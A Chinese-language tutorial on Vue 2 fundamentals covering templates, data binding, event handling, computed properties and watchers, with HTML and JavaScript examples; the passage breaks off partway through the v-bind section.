# 一、Vue简介

## 1、Vue是什么

- Vue是一套用于**构建用户界面**的**渐进式js框架**
  - 渐进式：Vue可以**自底向上逐层应用**
  - 通俗来讲
    - 如果是一个**简单应用**：只需一个轻量小巧的核心库
    - 如果是一个**复杂应用**：可以引入各式各样的Vue插件，如core+vue-router+vuex等
    - 即：**从一个小巧轻量的核心库逐渐递进到使用各式各样Vue的插件库**


## 2、Vue特点

### 2.1 组件化

- 采用**组件化**模式，提高代码复用率、且让代码更好维护
  - 将功能提取出来变成一个组件，即下方的vue格式文件
  - 如果有多个地方要用展示这个功能，只需引入这个组件即可，提高代码复用率
  - 只需要修改组件，便可将所有的地方都进行修改，方便维护




### 2.2 声明式编码

- **声明式**编码，让编码人员无需直接操作DOM，提高代码复用率

  - 命令式编程：一步一步的往下走，获取dom元素，然后修改其内容

  ```js
  // 准备html字符串
  let htmlStr = ''
  // 遍历数据拼接html字符串
  person.forEach(p => {
  	htmlStr += '<li>${p.id} - ${p.name} - ${p.age}</li>'
  });
  // 获取list元素
  let list = document.getElementById('list')
  // 修改内容（亲自操作DOM）
  list.innerHTML = htmlStr
  ```

  - 声明式编程：直接在页面声明dom元素，不需要一步步的获取然后修改，直接修改

  ```html
  <ul id="list"> 
      <li v-for="p in persons">
          {{p.id}} - {{p.name}} - {{p.age}}
       </li>
  </ul>
  ```
  ​

### 2.3 虚拟DOM**+**Diff算法

- 使用**虚拟DOM**+优秀的**Diff算法**，尽量复用DOM节点
- 原生的js
  - 在原生的JS里面，他会把里面的数值变为真实DOM直接放到页面上
  - 但是如果一旦数据有了变化，那么之前的数据即使一样，也会丢弃掉然后重新生成新的渲染



- 虚拟DOM
  - 在Vue里面，会经过一层虚拟dom，把数据转化为虚拟dom再转成真实dom渲染到页面
  - 如果数据不变化，那么虚拟dom不会有任何影响
  - 一旦数据变化，就会采用diff算法进行匹配，看是否有一样的，如果有就会复用，只需要添加新的即可，大大提高代码性能




## 3、开发环境

- 直接CDN引入

```javascript
<!-- 开发环境版本，包含了有帮助的命令行警告 -->
<script src="https://cdn.jsdelivr.net/npm/vue@2/dist/vue.js"></script>

<!-- 生产环境版本，优化了尺寸和速度，删除了警告 -->
<script src="https://cdn.jsdelivr.net/npm/vue@2"></script>
```

- 下载和引入

```bash
# 下载地址
https://vuejs.org/v2/guide/installation.html
# 引入文件
<script type="text/javascript" src="../js/vue.js"></script>
```

- npm安装
  - 后续通过webpack和CLI的使用，使用该方式

```bash
# 最新稳定版
$ npm install vue
```


## 4、关闭开发环境警告提示



```html
<script>
  Vue.config.productionTip = false;      // 阻止vue在启动时生成生产提示
</script>
```

​	

# 二、初识Vue

## 1、Hello小案例

- 想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象
- root容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法
- root容器里的代码被称为【Vue模板】

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>初识Vue</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

  <!--
    初识Vue：
    1、想让Vue工作，就必须创建一个Vue实例，且要传入一个配置对象
    2、root容器里的代码依然符合html规范，只不过混入了一些特殊的Vue语法
    3、root容器里的代码被称为【Vue模板】
  -->
  <div id="root">
    <h1>{{message}}</h1>
  </div>

  <script>
    Vue.config.productionTip = false;      // 阻止vue在启动时生成生产提示，true表示开启生产提示

    // 创建Vue实例
    const app = new Vue({
        el: '#root',          // el用于指定当前Vue实例为哪个容器服务，值通常为css选择器字符串
        data: {               // data中用于存储数据，数据供el所指定的容器去使用，值暂且先写成一个对象
            message: 'hello world'
        }
    })
  </script>

</body>
</html>
~~~


## 2、分析Hello案例

### 2.1 容器和Vue实例关系

- **容器和Vue实例是一对一的**

  - 如果单容器，多Vue实例，只会解析第一个Vue实例，后面的就都会报错

  ```html
  <!-- 容器 -->
  <div id="root">
      <h1>{{message}} - {{name}}</h1>
  </div>

  <script>
      Vue.config.productionTip = false;      // 阻止vue在启动时生成生产提示

      // 实例1
      new Vue({
          el: '#root',      
          data: {           
              message: 'hello world'
          }
      })
      
      // 实例2
      new Vue({
          el: '#root',                
          data: {                     
              name: 'lsq'
          }
      })
  </script>
  ```

  - 如果多容器，单实例，比如多个class名，也是只有第一个容器会解析，后面的就不会被解析

  ```html
  <div class="root">
      <h1>{{message}}</h1>
  </div>
  <div class="root">
      <h1>{{message}}</h1>
  </div>

  <script>
      Vue.config.productionTip = true;      // 阻止vue在启动时生成生产提示

      // 创建Vue实例
      new Vue({
          el: '.root',               
          data: {                     
              message: 'hello world'
          }
      })
  </script>
  ```

  ​

### 2.2 js表达式和js代码（语句）

- js表达式：**一个表达式会产生一个值**，可以放在任何一个需要值的地方
  - a
  - a+b
  - func(1)
  - x === y ? 'a' : 'b'
- js代码（语句）
  - if() {}
  - for() {}


### 2.3 {{}}可以写什么

- {{XXX}}中的XXX要写js表达式，且XXX可以自动读取到data中的所有属性
- 一旦data中的数据发生改变，那么模板中用到该数据的地方也会自动更新

```html
<div id="app">
  <h2>{{message}}</h2>
  <h2>{{message}},lzy</h2>
  <!-- Mustache不仅仅可以直接写变量，也可以写简单的表达式 -->
  <h2>{{firstName + ' ' + lastName}}</h2>
  <h2>{{firstName}} {{lastName}}</h2>
  <h2>{{counter * 2}}</h2>
</div>

<script src="../js/vue.js"></script>
<script>
  const app = new Vue({
    el: '#app',
    data: {
      message: '你好',
      firstName: 'kobe',
      lastName: 'bryant',
      counter: 100
    }
  })
</script>
```


## 3、模板语法：v-bind

- Vue模板语法有两大类

  - 插值语法
    - 功能：用于解析标签体内容
    - 写法：{{XXX}}，XXX是js表达式，且可以直接读取到data中的所有属性
    - 简写方式：:xxx="xxx"
  - 指令语法
    - 功能：用于解析标签（包括：标签属性、标签体内容、绑定事件...）
    - 距离：v-bind:href="xxx" 或 简写为 :href="xxx"，xxx同样要写js表达式，且可以直接读取到data中的所有属性
    - 备注：Vue中有很多的指令，且形式都是：v-???

  ```html
  <!DOCTYPE html>
  <html lang="en">
  <head>
      <meta charset="UTF-8">
      <title>Title</title>
      <script type="text/javascript" src="../js/vue.js"></script>
  </head>
  <body>

      <div id="root">
          <h1>插值语法</h1>
          <h3>hello, {{name}}</h3>
          <h1>指令语法</h1>
          <a v-bind:href="url" v-bind:x="name">百度</a>
          <!-- x绑定name属性 -->
      	<a :href="url.toUpperCase()">百度</a>
          <a :href="Date.now()">时间戳</a>
      </div>

      <script>
          const app = new Vue({
            el: '#root',
            data: {
              url: 'http://www.baidu.com',
              name: 'lzy'
            }
          })
      </script>
  </body>
  </html>
  ```

  

  ​


## 4、数据绑定：v-model

- v-bind的数据绑定是单向的，它只存在于从data中的属性值往容器中绑定，如果容器中数据变化，data属性中的值是不会变的
- 如果要实现双向绑定，那么就应该是用v-model
  - 双向绑定一般应用在表单类元素上（如：input、select等）
  - v-model:value 可以简写为 v-model，因为v-model默认收集的就是value值
- **v-model不能使用在没有value的标签内**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

    <div id="root">
        <!-- 普通写法 -->
        单向数据绑定：<input type="text" v-bind:value="message">{{message}}<br/>
        <!-- 使用v-bind，页面输入框数据变化，message值是不变的；message值变化的时候，输入框的值会变-->
        双向数据绑定：<input type="text" v-model:value="message">{{message}}
        <!-- 使用v-model，输入框和message值是双向绑定的，任何一方变化另一方都会跟着变化 -->
               
        <!-- 简便写法 -->
        单向数据绑定：<input type="text" :value="message">{{message}}<br/>
        <!-- 使用v-bind，页面输入框数据变化，message值是不变的；message值变化的时候，输入框的值会变-->
        双向数据绑定：<input type="text" v-model="message">{{message}}
        <!-- 使用v-model，输入框和message值是双向绑定的，任何一方变化另一方都会跟着变化 -->
        
        <!-- 以下用法会报错，因为v-model不能使用在没有value的标签内 -->
        <h2 v-model:x="name">你好</h2>
    </div>

    <script>
      const app = new Vue({
        el: '#root',
        data: {
          message: 'lzy'
        }
      })
    </script>

</body>
</html>
```


## 5、el和data的写法

- el的两种写法

  - **在声明vue实例的时候，在内部直接写**

  ```js
  const app = new Vue({
      el: '#root',
      data: {
        message: 'lzy'
      }
    })
  ```

  - **通过vue.$mount('#root')去挂载**

  ```js
  const vue = new Vue({
      data: {
        message: 'lzy'
      }
  });
  vue.$mount('#root');
  ```

- data的两种写法

  - 对象式写法

  ```js
  const app = new Vue({
      el: '#root',
      data: {
        message: 'lzy'
      }
    })
  ```

  - 函数式写法

  ```js
  const app = new Vue({
      el: '#root',
      data:function() {
        console.log(this);//此处的this指代的就是Vue实例对象，如果写成箭头函数，则指代的是window对象
        return{
            message: 'lzy'
        }
      }
    })
  ```

  ​

## 6、MVVM模型

- 什么是MVVM
  - Model-View-ViewModel的简写，MVC的改进版
  - MVVM 就是将其中的View 的状态和行为抽象化，让我们将视图 UI 和业务逻辑分开
  - ViewModel 已经帮我们做了，它可以取出 Model 的数据同时帮忙处理 View 中由于需要展示内容而涉及的业务逻辑
- Vue中的MVVM
  - View层：
    - 视图层：对应页面
    - 在我们前端开发中，通常就是DOM层
    - 主要作用：给用户展示各种信息
  - Model层：
    - 数据层：对应data中的数据
    - 数据可能是我们固定的死数据，更多的是来自我们服务器，从网络上请求下来的数据
    - 在计数器案例中，就是后面抽取出来的obj
  - ViewModel层
    - 视图模型层：对应Vue实例对象
    - 视图模型层是View和Model沟通的桥梁
    - 一方面实现了DataBinding，也就是数据绑定，将Model的改变实时的反映到View中
    - 另一方面实现了Dom Listener，也就是DOM监听，当DOM发生一些事件(点击、滚动、touch等)时，可以监听到，并在需要的时候改变对应的Data
- 注意：
  - **data中的所有属性，最终都出现在了vm（Vue实例）身上**
  - **vm身上的所有属性 及 Vue原型上所有属性，在Vue模板中都可以直接使用**




## 7、数据代理

### 7.1 Object .defineProperty方法

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
    <script type="text/javascript">
        let num = 18;
        let person = {
            name: '张三',
            sex: '男'
        }

        Object.defineProperty(person, 'age', {
            // value: 19,              	   // 属性的值
            // enumerable: true,           // 控制属性是否可以枚举，即可不可以遍历，默认值false
            // writable: true,             // 控制属性是否可以被修改，默认值false
            // configurable: true,         // 控制属性是否可以被删除，默认值是false

            // 当读取person的age属性时，get函数(getter)就会被调用，且返回值就是age的值
            get() {
                console.log('读取age属性')
                return num
            },

            // 当person的age值被修改时，set函数(setter)就会被调用，且会收到修改的具体值
            set(value) {
                console.log('age属性被修改，值为：' + value)
                num = value
            }
        })
        
        console.log(Object.keys(person)); // 遍历person对象的属性name
        // enumerable: true开启后，输出['name', 'sex', 'age']
        // enumerable: false关闭后，输出['name', 'sex']
    </script>
</body>
</html>
```


### 7.2 何为数据代理

- **通过一个对象代理对另一个对象中属性的操作**

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>
  <script type="text/javascript">
      // 数据代理：通过一个对象代理对另一个对象中属性的操作
      // 例子：通过对象obj2代理，然后对obj的属性进行操作
      let obj = {
        x: 100
      }
      let obj2 = {
        y: 200
      }

      Object.defineProperty(obj2, 'x', {
        // 通过obj2对obj的x进行操作
        get() {
          return obj.x
        },
        set(value) {
          obj.x = value
        }
      })


  </script>
</body>
</html>
```


### 7.3 Vue中的数据代理

- Vue中的数据代理
  - 通过vm对象来代理data对象中属性的操作（读写）
- 好处：
  - 更加方便操作data中的数据
- 基本原理
  - 通过Object .defineProperty()把data对象中所有属性加到vm上
  - 为每一个添加到vm上的属性，指定一个getter/setter
  - 在getter/setter内部去操作（读/写）data中对应的属性
- **获取data：vm._data**，即vm实例里面的data数据
  - vm._data == data 打印true

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>vm的data</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

  <div id="root">
      <h1>{{name}}</h1>
      <h1>{{age}}</h1>
  </div>

  <script>
      let data = {
          name: 'lzy',
          age: 18
      }
      const vm = new Vue({
         el: '#root',
         data: data
      })
  </script>

</body>
</html>
~~~




## 8、事件处理

### 8.1 基本使用

- 事件的基本使用
  - 使用v-on:xxx 或 @xxx 绑定事件，其中xxx是事件名
  - 事件的回调需要配置在methods对象中，最终会在vm上
  - methods中配置的函数，不要用箭头函数，否则this就指向的不是vm了，而是window了
  - methods中配置的函数，都是被Vue所管理的函数，this的指向是vm或组件实例对象
  - @click=“demo” 和 @click=“demo($event)”效果一致，但是后者可以传参
- 注意一点
  - **方法也可以写在data里，但是不建议这么写，这样会使vue很累，效率很低**
  - 原因：data里面的东西都会进行一次数据代理，但是方法其实是不需要的，放在这里面会使vue对其再进行一次数据劫持和数据代理，这样就多此一举了



```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

    <div id="root">
        <h1>{{name}}</h1>
        <button v-on:click="showInfo1">点我提示信息</button>
        <!-- 如果既要传递event，也要传递别的参数，就需要用$event充当占位符，这样函数接收到的参数就是event -->
        <!-- event：事件信息 -->
        <button v-on:click="showInfo2($event, 66)">点我提示信息</button>
    </div>

    <script>
        const app = new Vue({
            el: '#root',
            data: {
               name: 'lzy'
            },
            methods: {
                showInfo1(event) {
                    console.log(this)           // 此处的this指代的是Vue实例，如果函数写成箭头函数，则this指代的是windows实例
                    console.log(event.target.innerText)
                    alert('你好，lzy001')
                },
                showInfo2(event, num) {
                    console.log(num)           // num即为传递的66
                    console.log(event.target.innerText)
                    alert('你好，lzy002')
                }
            }
        })
    </script>

</body>
</html>
```


### 8.2 事件修饰符

- 某些情况下，拿到event的目的可能是进行一些事件处理
  - .stop  —— 调用event.stopPropagation()
  - .prevent  ——  调用event.preventDefault()
  - .{keyCode | keyAilas}  ——  只当事件是从特定键触发时才触发回调
  - .native  —— 监听组件根元素的原生事件
  - .once  ——  只触发一次回调
  - .capture —— 使用事件的捕获模式，正常的捕获模式是从外到内，事件冒泡则是从内到外，加上这个事件触发顺序就跟捕获模式一样
  - .self —— 只有event.target是当前操作的元素才触发事件

```html
<!-- 停止冒泡 -->
<button @click.stop="doThis"></button>

<!-- 阻止默认行为 -->
<button @click.prevent="doThis"></button>

<!-- 阻止默认行为，没有表达式 -->
<button @submit.prevent></button>

<!-- 串联修饰符 -->
<button @click.stop.prevent="doThis"></button>

<!-- 键修饰符，键别名 -->
<button @keyup.enter="onEnter"></button>

<!-- 键修饰符，键代码 -->
<button @keyup.13="onEnter"></button>

<!-- 点击回调只会触发一次 -->
<button @click.once="doThis"></button>

<!-- 使用事件的捕获模式 -->
<button @click.capture="doThis"></button>

<!-- 是当前操作的元素才触发事件 -->
<button @click.self="doThis"></button>
```

- 例子1

```html
<!-- 1、stop修饰符使用 -->
<!-- 不加.stop的话，点击就会两个事件都触发，打印btnClick和divClick；加上后，就不会向上冒泡，只会打印btnClick -->
<div id="app" @click="divClick">
    <button @click.stop="btnClick">button</button>
    
    <!-- 2、prevent修饰符使用 -->
	<!-- 不加.prevent的话，点击就会默认提交；加上.prevent就会阻止默认提交，只执行submitClick方法 -->
	<form action="baidu">
        <input type="submit" value="提交" @click.prevent="submitClick"/>
    </form>
    
    <!-- 3、监听某个键的键冒 -->
    <!-- 不加.enter的话，每按一次键弹起就会调用方法；加上后，除非按了enter键，否则都不会调用方法 -->
    <input type="text" @keyup.enter="keyUp" />
    <!-- 监听A键的弹起 -->
    <input type="text" @keyup.65="keyUp" />
    
    <!-- 4、.once的使用 -->
    <!-- 不加.once的话，每点击一次就会调用方法；加上后，只会在第一次点击调用方法，后面在点击没用 -->
    <button @click.once="btn2Click">button2</button>
    
    <!-- 5、.capture的使用 -->
    <!-- 不加.capture的话，点击div2，会先打印2，再打印1，因为冒泡是从内到外的；加的话就会跟捕获方式一样，所以先打印1，再打印2  -->
    <div @click.capture="showMsg(1)">
        div1
        <div @click="showMsg(2)">
        	div2
        </div>
    </div>
    
    <!-- 6、.self的使用 -->
    <!-- 不加.self的话，点击div2，会触发两次showInfo；加了self的话，会判断这个event.target是不是本身，而div1显然不是，所以就不会触发，只会触发一次 -->
    <div @click.self="showInfo">
        div1
        <div @click="showInfo">
        	div2
        </div>
    </div>
    
</div>

<script src="../js/vue.js"></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
            count: 0
        },
        methods: {
            divClick() {
                console.log('divClick')
            },
            btnClick() {
                console.log('btnClick')
            },
            submitClick() {
                console.log('submitClick')
            },
            keyUp() {
                console.log('keyUp')
            },
            btn2Click() {
                console.log('btn2Click')
            },
            showMsg(num) {
            	console.log(num)
            }
        }
    })
</script>
```

- 例子2

~~~html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>事件修饰符</title>
    <script type="text/javascript" src="../../js/vue.js"></script>
    <style>
      *{
        margin-top: 20px;
      }
      .demo1{
        height: 50px;
        background-color: skyblue;
      }
    </style>
</head>
<body>

  <div id="root">
    <!-- 点击的时候，会先弹窗提示信息，然后页面会跳转到百度页面 -->
    <a href="https://www.baidu.com" @click="showInfo1">百度一下</a><br/>
    <!-- 阻止默认事件:prevent（只弹窗，不跳转） -->
    <a href="https://www.baidu.com" @click.prevent="showInfo1">百度一下</a><br/>
    <!-- 阻止事件冒泡:stop（点击按钮，只会弹窗showInfo2，不会弹窗showInfo1） -->
    <div class="demo1" @click="showInfo1">
      <button @click.stop="showInfo2">点我提示信息</button>
    </div>
    <!-- 事件只触发一次:once（只有第一次调用的时候会执行，后续再调用都不会执行） -->
    <a href="https://www.baidu.com" @click.once="showInfo1">百度一下</a><br/>
    <!-- .capture —— 事件的捕获模式，正常的捕获模式是从外到内，事件冒泡则是从内到外，加上这个事件触发顺序就跟捕获模式一样 -->
    <!-- 即：本身是先触发showInfo2，再触发showInfo1；加上后先触发showInfo1，再触发showInfo2 -->
    <div class="demo1" @click.capture="showInfo1">
      <button @click="showInfo2">点我提示信息</button>
    </div>
    <!-- .self:只有event.target是当前操作的元素时才会触发事件-->
    <!-- 即：点击按钮的时候，事件对象其实都是button，但是会冒泡上去到div -->
    <!-- 加了self之后，就会判断事件对象e是否是自己，是自己才会触发事件，即：只会触发showInfo2 -->
    <div class="demo1" @click.self="showInfo1">
      <button @click="showInfo2">点我提示信息</button>
    </div>
  </div>

  <script>
    Vue.config.productionTip = false;

    new Vue({
      el: '#root',
      data: {
        one: '1',
        two: '2'
      },
      methods: {
        showInfo1() {
          alert(this.one)
        },
        showInfo2() {
          alert(this.two)
        }
      }
    })
  </script>
</body>
</html>
~~~


### 8.3 键盘事件

- Vue中常用的按键别名
  - 回车：enter
  - 删除：delete（删除和退格）
  - 退出：esc
  - 空格：space
  - 换行：tab（特殊，必须配合keydown使用。因为tab本身是切换焦点，放起的时候就失去这个焦点了，就不会再触发这个事件了，所以只有按下去的时候才会触发）
  - 上：up
  - 下：down
  - 左：left
  - 右：right
- Vue未提供别名的按键，可以使用按键原始的key去绑定，但是注意要转为keyab-case（短横线命名）
- 系统修饰键（用法特殊）：ctrl、alt、shift、meta
  - 配合keyup使用：按下修饰键的同时，再按下其他键，随后释放其他键，事件才会触发
  - 配合keydown使用：正常触发事件
- 也可以使用keycode去指定具体的按键（不推荐）
- Vue.config.keyCodes.自定义键名 = 键码，可以去定制按键别名

```html
<!DOCTYPE html>
<html lang="en">
<head>
  <meta charset="UTF-8">
  <title>键盘事件</title>
  <script type="text/javascript" src="../../js/vue.js"></script>

</head>
<body>

  <div id="root">
    <!-- 键修饰符，键别名 -->
    <button @keyup.enter="onEnter">回车键</button>
    <!-- 键修饰符，键代码 -->
    <button @keyup.13="onEnter">回车键</button>
    <!-- 原始的key绑定事件，只有按下NumLock时才会触发事件 -->
    <button @keyup.num-lock="onEnter">NumLock</button>
    <!-- 自定义键名 -->
    <button @keyup.huiche="onEnter">自定义回车键</button>
    <!-- 系统修饰键，按下ctrl键后再按其他任意键，松开才会触发 -->
    <button @keyup.ctrl="onEnter">ctrl+y</button>
    <!-- 系统修饰键，只有按下ctrl+y才会触发，如果不加后面的y，那么ctrl+任何按键都可以触发 -->
    <button @keyup.ctrl.y="onEnter">ctrl+y</button>
  </div>

  <script>
    Vue.config.productionTip = false;
    Vue.config.keyCodes.huiche = 13;
    new Vue({
      el: '#root',
      data: {
        one: '1',
        two: '2'
      },
      methods: {
        onEnter() {
          alert("事件触发")
        }
      }
    })
  </script>
</body>
</html>
```


## 9、计算属性

### 9.1 基本用法

- 有的数据需要计算后显示在前端上，或者需要将多个数据结合起来，就需要使用计算属性的方法
- 可以直接用Mustache进行数据计算
- 在methods中编写方法进行计算
- 在computed中编写属性计算(**这里面的是属性而不是方法函数**)

```html
<div id="app">
    <h1>{{firstName}} {{lastName}}</h1>
    <h1>{{firstName + ' ' + lastName}}</h1>
    <h1>{{getFullName()}}</h1>
    <h1>{{fullName}}</h1>
</div>

<script src='../js/vue.js'></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
            firstName: 'lzy',
            lastName: 'lxy'
        },
        computed: {
            fullName: function () {
                console.log(this)；		//此处的this指代的是vue实例
                return this.firstName + ' ' + this.lastName
            }
        },
        methods: {
            getFullName() {
                return this.firstName + ' ' + this.lastName
            }
        }
    })
</script>
```


### 9.2 复杂用法

- 有些数据是对象，需要对其抽取计算然后赋值，所以普通的Mustache是不能够实现的，所以需要使用计算属性的复杂用法
- 在computed计算数据后返回，然后页面上就可以直接使用

```html
<!-- resultPrice这是一个属性而不是方法函数 -->
<div id="app">
   <h1>总价格: {{resultPrice}}</h1>
</div>

<script src='../js/vue.js'></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
            books: [
                {id: '1001', name: 'C语言', price: 100},
                {id: '1002', name: 'JAVA', price: 101},
                {id: '1003', name: 'PHP', price: 102},
                {id: '1004', name: 'C++', price: 103}
            ]
        },
        computed: {
            resultPrice: function () {
                let result = 0;
                for (let i = 0; i < this.books.length; i++){
                    result += this.books[i].price;
                }
                return result;
            }
        }
    })
</script>
```


### 9.3 计算属性的getter和setter

- computed中的属性是有set和get方法的
- set方法是用于给属性赋值的
- get方法是用于获取值然后渲染在页面上的
- 如果属性只是用来读，不用来写，可以直接用简写方式，就直接当成函数方式写

```html
<div id="app">
  <h2>{{fullName}}</h2>
</div>

<script src="../../js/vue.js"></script>
<script>
  const app = new Vue({
    el: '#app',
    data: {
      firstName: 'lzy',
      lastName: 'lsq'
    },
    computed: {
      fullName: {
        set: function (newValue){
          const names = newValue.split(' ');
          this.firstName = names[0];
          this.lastName = names[1];
        },
        get: function (){
          return this.firstName + ' ' + this.lastName;
        }
      },
        
      // 如果属性只是用来读，不用来写，简写方式
      fullName1() {
          return this.firstName + ' ' + this.lastName;
      }
    }
  })
</script>
```


### 9.4 计算属性和methods对比

- computed被多次调用但是只会执行一次，然后放在缓存中，相对性能会高
- methods每次调用都会执行一次，性能相对较低

```html
<div id="app">
    <h2>{{fullName}}</h2>
    <h2>{{fullName}}</h2>
    <h2>{{fullName}}</h2>
    <h2>{{fullName}}</h2>

    <h2>{{getFullName()}}</h2>
    <h2>{{getFullName()}}</h2>
    <h2>{{getFullName()}}</h2>
    <h2>{{getFullName()}}</h2>
</div>

<script src="../../js/vue.js"></script>
<script>
    const app = new Vue({
        el: '#app',
        data: {
            firstName: 'lzy',
            lastName: 'lsq'
        },
        methods:{
          getFullName: function () {
              console.log('getFullName被执行了')
              return this.firstName + ' ' + this.lastName;
          }
        },
        computed: {
            fullName: {
                get: function (){
                    console.log('fullName被执行了')
                    return this.firstName + ' ' + this.lastName;
                }
            }
        }
    })
</script>
<!-- methods里面的方法会被执行四次，而computed里面的只会被执行一次，然后放到缓存中，只有在值变的时候才会被重新执行 -->
```


## 10、监视属性

### 10.1 天气案例

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <h1>今天天气很{{info}}</h1>
    <button @click="changeWeather">切换天气</button>
  </div>

  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        isHost: true
      },
      computed: {
          info() {
              return this.isHost ? '炎热' : '凉爽'
          }
      },
      methods: {
          changeWeather() {
              this.isHost = !this.isHost
          }
      }
    })
  </script>

</body>
</html>
```


### 10.2 天气案例——监视属性

- 监视属性watch
  - 当被监视的属性变化时，回调函数自动调用，进行相关操作
  - 监视的属性必须存在，才能进行监视
  - 计算属性计算出来的属性也可以被监视
  - 监视两种写法
    - new Vue时传入watch配置
    - 通过vm.$watch监视

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <h1>今天天气很{{info}}</h1>
    <button @click="changeWeather">切换天气</button>
  </div>

  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        isHost: true
      },
      computed: {
          info() {
              return this.isHost ? '炎热' : '凉爽'
          }
      },
      methods: {
          changeWeather() {
              this.isHost = !this.isHost
          }
      },
      // 第一种写法
      watch: {
          isHost: {
              immediate: true,    // 初始化的时候让handler调用一下
              handler(newValue, oldValue) {         // 当监视的值发生变化的时候触发
                  console.log('isHost的值被修改了',newValue,oldValue)
              }
          }
      }
    })
   
   // 第二种写法 
   vm.$watch('info', {
        immediate: true,    // 初始化的时候让handler调用一下
        handler(newValue, oldValue) {         // 当监视的值发生变化的时候触发
            console.log('info的值被修改了',newValue,oldValue)
        }
    })
    
  </script>   

</body>
</html>
```


### 10.3 深度监视

- Vue中的watch默认不监测对象内部值的改变（一层）
- 配置deep:true可以监测对象内部值改变（多层）
- 备注
  - Vue自身可以监测到对象内部值的改变，但Vue提供的watch默认不可以
  - 使用watch时根据数据的具体结构，决定是否采用深度监视

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

  <div id="root">
    <h1>a的值是：{{number.a}}</h1>
    <button @click="number.a++">点击a++</button>
    <h1>c的值是：{{number.b.c}}</h1>
    <button @click="number.b.c++">点击b++</button>
    <!-- 这里如果改变的是number对象，那么即使不加deep也会触发number的变化回调，即：Vue自身可以监测到对象内部值的改变 -->
    <button @click="number = {a: 1, b: 2}">点击改变number对象</button>
  </div>

  <script>
    const vm = new Vue({
      el: '#root',
      data: {
        number: {
            a: 1,
            b: {
                c: 1
            }
        }
      },
      watch: {
          // 监测下层某一个值的时候,需要加上引号，表示是一个字符
          'number.a': {
              handler(newValue, oldValue) {
                  console.log('a的值发生变化')
              }
          },
          // 监测下层所有的值改变
          number: {
              // deep: true,    // 当number下面的任何值发生变化的时候都能监测
              handler(newValue, oldValue) {
                  console.log('number的值发生变化')
              }
          }
      }
    })

  </script>

</body>
</html>
```


### 10.4 简写形式

- 如果只需要配置handler，不需要配其他的deep或者immediate的时候，就可以开启简写形式
- 简写形式1：

```js
// 完整写法 
watch: {
	isHost: {
    	immediate: true,    // 初始化的时候让handler调用一下
    	handler(newValue, oldValue) {         // 当监视的值发生变化的时候触发
        	console.log('isHost的值被修改了',newValue,oldValue)
        }
    }
}

// 简写形式
watch: {
	isHost(newValue, oldValue) {
    	console.log('isHost的值被修改了',newValue,oldValue)
    }
}
```

- 简写形式2：

```js
// 完整写法
vm.$watch('info', {
	immediate: true,    // 初始化的时候让handler调用一下
	handler(newValue, oldValue) {         // 当监视的值发生变化的时候触发
    	console.log('info的值被修改了',newValue,oldValue)
	}
})

// 简写形式
vm.$watch('info', function (newValue, oldValue){ 
	console.log('info的值被修改了',newValue,oldValue)
})
```


### 10.5 computed和watch之间的区别

- computed和watch之间的区别
  - computed能完成的功能，watch都能完成
  - watch能完成的功能，computed不一定能完成。例如：watch可以进行异步操作
- 两个重要的小原则
  - **所被Vue管理的函数，最好写成普通函数，这样this的指向才是vm 或 组件实例化对象**
  - 所有不被Vue管理的函数（定时器的回调函数、ajax的回调函数等），最好写成箭头函数，这样this的指向才是vm 或 组件实例化对象
- 为什么computed不能实现异步
  - 因为计算属性是需要返回值的，如果在定时函数中写返回值，返回的是给定时任务而不是vue实例

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
    <script type="text/javascript" src="../js/vue.js"></script>
</head>
<body>

<div id="app">
    <h1>{{fullName}}</h1>
    姓：<input type="text" v-model="firstName" />
    名：<input type="text" v-model="lastName" />
</div>

<script src='../js/vue.js'></script>

<script>
    const app = new Vue({
        el: '#app',
        data: {
            firstName: '张',
            lastName: '三',
            fullName: '张-三'
        },
        watch: {
            // 延迟一秒页面再发生变化
            firstName(newValue) {
                setTimeout(() => { //这里写成箭头函数，这样他的this就是空的，就会往外找，那么就是firstName的实例；而如果写成普通函数，且setTimeout本身就是window的方法，执行的时候this就是window，所以如果在这写成普通函数就不会成功
                    this.fullName = newValue + "-" + this.lastName
                }, 1000)
            },
            lastName(newValue) {
                this.fullName = this.firstName + "-" + newValue
            }
        }
    })
</script>

</body>
</html>
```


## 11、v-bind动态绑定

### 11.1 v-bind基本使用

- 动态绑定数据
  - 比如动态绑定a元素的href属性
  - 比如动态绑定img元素的src属性
- 用于绑定一个或多个属性值，或向另一个组件传递props值
- 语法糖：**：**（直接用一个冒号）

```html
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <title>Title</title>
</head>
<body>

<div id="app">
    
    <a :href="url">百度一下</a>
    <!-- 语法糖：一个冒号 -->
</div>

<script src="../../js/vue.js"></script>
<script>
    const app = new Vue({
        el: '#app',
        data: {
